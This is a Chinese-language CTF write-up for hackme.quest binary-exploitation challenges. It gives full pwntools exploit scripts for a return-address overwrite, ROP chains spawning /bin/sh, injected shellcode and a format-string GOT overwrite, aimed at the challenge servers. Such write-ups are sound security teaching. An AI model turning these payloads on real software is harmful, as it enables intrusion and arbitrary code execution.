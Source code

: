 # HackMe Writeup

# 57 catflag
就直接連上去就好了
```python=
def main():
    r = pwn.remote('ctf.hackme.quest', 7709)
    r.interactive()
```

# 58 homework
從原始碼可以看出這個地方允許使用者修改任意位置的值

![image alt](https://i.imgur.com/3GEpGpV.png")

可以從這個地方修改return address value到call_me_maybe來開啟shell
先使用r2來查call_me_maybe address的位置

![image alt](https://i.imgur.com/NJZ0IGv.png")

查出了是0x080485fb 轉成十進位後為134514171
下一步就是要計算好offset來讓程式修改到正確的位置
陣列的大小為10個int也就是40byte，換算為16進位後為0x28

![image alt](https://i.imgur.com/lTtaYxK.png")

從變數宣告處0x34扣掉0xc後即為0x28得出陣列位於0x34的位置
接著便可來計算offset
0x34再加上saved rbp的0x4後除4為14即為offset
```python=
def main():
    r = pwn.remote('ctf.hackme.quest', 7701)
    r.recvuntil(b'name? ')
    r.sendline(b'haha')
    r.recvuntil(b'numbers\n')
    r.recvuntil(b'> ')
    r.sendline(b'1')
    r.recvuntil(b'edit: ')
    r.sendline(b'14')
    r.recvuntil(b'many? ')
    r.sendline(b'134514171')
    r.recvuntil(b'numbers\n')
    r.recvuntil(b'> ')
    r.sendline(b'0')
    r.interactive()
```

# 59 ROP
checksec 一下後發現沒有開啟Canary和PIE，程式又有用gets來做讀取
所以可以直接buffer overflow掉reutrn address
但比較麻煩的是程式裡面沒有直接提供shell的function，所以得自己搞
這時候就要用到ROP的技術，簡單來說就是一直在程式裡面跳來跳去
先下這個指令
```
ROPgadget --binary ./ROP --ropchain
```
然後ROP chain就建好了 Yaaa
接著只需要算個offset就好，讓他可以剛好從return address開始寫
變數的長度為0xc再加上4之後為0x10
```python=
def main():
    r = pwn.remote('ctf.hackme.quest', 7704)

    # Padding goes here
    p = b'a' * 0x10

    p += pack('<I', 0x0806ecda)  # pop edx ; ret
    p += pack('<I', 0x080ea060)  # @ .data
    p += pack('<I', 0x080b8016)  # pop eax ; ret
    p += b'/bin'
    p += pack('<I', 0x0805466b)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ecda)  # pop edx ; ret
    p += pack('<I', 0x080ea064)  # @ .data + 4
    p += pack('<I', 0x080b8016)  # pop eax ; ret
    p += b'//sh'
    p += pack('<I', 0x0805466b)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x0806ecda)  # pop edx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x080492d3)  # xor eax, eax ; ret
    p += pack('<I', 0x0805466b)  # mov dword ptr [edx], eax ; ret
    p += pack('<I', 0x080481c9)  # pop ebx ; ret
    p += pack('<I', 0x080ea060)  # @ .data
    p += pack('<I', 0x080de769)  # pop ecx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x0806ecda)  # pop edx ; ret
    p += pack('<I', 0x080ea068)  # @ .data + 8
    p += pack('<I', 0x080492d3)  # xor eax, eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0807a66f)  # inc eax ; ret
    p += pack('<I', 0x0806c943)  # int 0x80
    r.sendline(p)

    r.interactive()
```
# 60 ROP2
真正的ROP，沒辦法直接用ROPgadget來生成ROP chain了
先觀察一下後發現在overflow函式中有呼叫3號的syscall

[查表](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md)後可發現是對應到read函式，又應沒有開啟Canary所以可以從這邊overflow
陣列長度為0xc因此padding長度為0xc+0x4=0x10
接下來就要來開始寫ROP chain了，目標為11號system call -> execve，然後再來呼叫/bin/sh來開啟shell


然後為了要寫上/bin/sh，我們自己需要再呼叫一次read system call來進行寫入，對應的參數為 systemcall(0x3, 0, bss_address, 0x8)
因此第一部分的ROP chain內容為


| Stack Content               |
| --------------------------- |
| system call funtion address |
| overflow funciton address   |
| 0x3                         |
| 0x0                         |
| bss_address                 |
| 0x8                         |


然後第二段就是要來呼叫execve
| Stack Content                                   |
| ----------------------------------------------- |
| system call funtion address                     |
| overflow funciton address(不過這個不重要就是了) |
| 0x11                                            |
| bss_address                                     |
| 0x0                                             |
| 0x0                                             |

```python=
def main():
    r = pwn.remote('ctf.hackme.quest', 7703)
    elf = pwn.ELF('./asset/rop2')
    bss_addr = elf.bss()
    system_call_addr = 0x08048320
    overflow_addr = 0x08048454

    p = b'a' * 0x10
    p += p32(system_call_addr) + p32(overflow_addr)
    p += p32(0x3) + p32(0x0) + p32(bss_addr) + p32(0x8)
    r.send(p)
    r.send(b'/bin/sh\x00')

    p = b'a' * 0x10
    p += p32(system_call_addr) + p32(overflow_addr)
    p += p32(0xb) + p32(bss_addr) + p32(0x0) + p32(0x0)
    r.send(p)
    r.interactive()
```

# 61 toooomuch
反編譯一下知道passcode是43210之後輸入後玩猜數字遊戲後flag就出來了

# 62 toooomuch-2
這題沒有開啟NX因此有可寫可執行的記憶體區段，可以用shell code來解
可以先從[這裡](https://www.exploit-db.com/shellcodes)挑選一個合適的shell code，然後就可以來尋找可以寫入的區段了
使用gdb的vmmap後會顯示出寫可執行的記憶體區段

![image alt](https://i.imgur.com/faGFd6E.png")

等等可以選用0x08049000到0x0804a000的位置來進行寫入
寫入時一樣先計算好padding為(0x18 + 0x4)後
接著讓程式return到gets的位置來在我們所指定的位置寫入shell code
下一個內容為gets function的return address
最後是gets function的argument也就是寫入的位置
```python=
def main():
    r = pwn.remote('ctf.hackme.quest', 7702)
    shell_code = b'\xd9\xee\x9b\xd9\x74\x24\xf4\x5f\x83\xc7\x25\x8d\x77\x08\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x06\x83\xc6\x08\xe2\xef\xeb\x08\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a'
    gets_addr = 0x08048480
    wx_addr = 0x08049000
    p = b'a' * (0x18 + 4)
    p += p32(0x08048480)  # return to gets function
    p += p32(0x08049000)  # gets function's return address
    p += p32(0x08049000)  # gets function's argument
    r.recvuntil(b'passcode: ')
    r.sendline(p)
    r.sendline(shell_code)
    r.interactive()
```

# 63 echo
這題的核心概念是格式化字串攻擊，藉由printf寫入相關資訊，然後開啟shell
除此之外，更用到了呼叫library函式的漏洞
當程式執行到library function時，會跳轉到對應的plt，然後plt中會檢查該函式的got是否有被填上，若有則跳轉到該位置，執行library function，若否，則填上got後再執行。

此時，got位置便若是被修改，則可跳轉到任意地址，但條件是程式不能為full relro。

這個題目的解法便是將printf的got修改為system的plt後開啟shell
```python=
def main():
    r = pwn.remote('ctf.hackme.quest', 7711)
    printf_got = 0x0804a010
    system_plt = 0x08048400

    p = p32(printf_got) + p32(printf_got + 1) + p32(printf_got + 2) + p32(printf_got + 3)
    #  00 84 04 08    system's plt
    p += b'%240c%7$hhn'  # write 0x00
    p += b'%132c%8$hhn'  # write 0x84
    p += b'%128c%9$hhn'  # write 0x04
    p += b'%4c%10$hhn'   # write 0x08
    r.sendline(p)
    r.sendline('/bin/sh\00')

    r.interactive()
```